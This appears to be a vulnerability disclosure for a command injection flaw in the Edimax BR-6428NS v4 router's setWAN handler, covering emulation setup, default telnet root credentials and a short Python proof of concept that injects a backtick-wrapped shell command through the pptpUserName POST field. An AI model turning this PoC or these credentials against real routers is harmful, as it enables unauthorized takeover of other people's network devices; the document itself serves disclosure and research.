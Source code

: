 # Command Injection

Execute commands directly on the router via HTTP POST requests.

## Device Information

**Device**: Edimax Wireless Router BR-6428NS-v4

**Firmware Version**: BR-6428NS_v4_1.10

**Firmware Download Link**: https://www.edimax.com/edimax/download/download/data/edimax/global/download/wireless_routers_n300/br-6428ns_v4

![image-20241012150947135](./images/image-20241012150947135.png)

**Emulation Environment**: ubuntu-18.04.6-desktop-amd64 + [FirmAE](https://github.com/pr0v3rbs/FirmAE) + python-3.6.9

**Emulation Command**:

```shell
sudo ./run.sh -r Edimax ~/Desktop/BR-6428NS_v4_1.10.zip
```

![image-20241012151406971](./images/image-20241012151406971.png)

**Router Homepage**:

![image-20241012153525694](./images/image-20241012153525694.png)

**Telnet**:

Username and password: root/edimaxens

![image-20241012153704459](./images/image-20241012153704459.png)

**Vulnerability Location**: Within the squashfs-root system of the firmware package, specifically in the /bin/webs ELF file’s setWAN function.

## Cause of the Vulnerability

The setWAN function accepts arbitrary input for the pptpUserName parameter without validation, which can execute system commands directly using backticks **`**.

Both wanMode and pptpUserName are supplied via front-end POST.

![image-20241012145756591](./images/image-20241012145756591.png)

When **wanMode=3**, it enters the command injection logic.

![image-20241012152835403](./images/image-20241012152835403.png)

## PoC

```python
import requests

command = "touch /tmp/fanxiaoyao"
url = "http://192.168.2.1/goform/setWAN"
data = {
    "wanMode":"3",
    "pptpUserName":f"`{command}`"
}

r = requests.post(url, data=data)
#print(r.text)
```

**Execution Result**:

![image-20241012154823782](./images/image-20241012154823782.png)